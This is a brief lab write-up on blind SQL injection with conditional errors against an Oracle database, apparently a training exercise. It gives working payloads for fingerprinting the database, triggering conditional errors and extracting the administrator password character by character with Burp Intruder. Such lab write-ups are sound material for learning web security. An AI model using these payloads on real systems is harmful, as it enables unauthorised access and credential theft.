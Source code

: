 # Lab: Blind SQL injection with conditional errors
## Description

1) Identified the SQLi by injecting a single quote into the TrackingId parameter, triggering an Internal Server Error.

2) I spent some time trying to just trigger a conditional error, but they all kept failing. I had to take a step back..

3) I first had to identify the database! I eventually identified the database as Oracle using the following injection: `' AND (SELECT version FROM v$instance)='a`

4) Knowing the DB, its was suddenly much easier to debug the conditional error injection. The two injections were used to confirm it:

`' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual)='a` (500 Internal Server Error)

`' AND (SELECT CASE WHEN (1=0) THEN to_char(1/0) ELSE 'a' END FROM dual)='a` (200 OK)

5) Extraction time! The query become pretty complicated, so I first built the condition select statement: `SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1)='a'` and combined that with the conditional error injectin from previous step. The final injection would look something like this:

`' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1)='a') THEN 'a' ELSE to_char(1/0) END FROM dual)='a`

With this, I moved the payload into Intruder and configured a Cluster Bomb attack.


## Solution

See description.
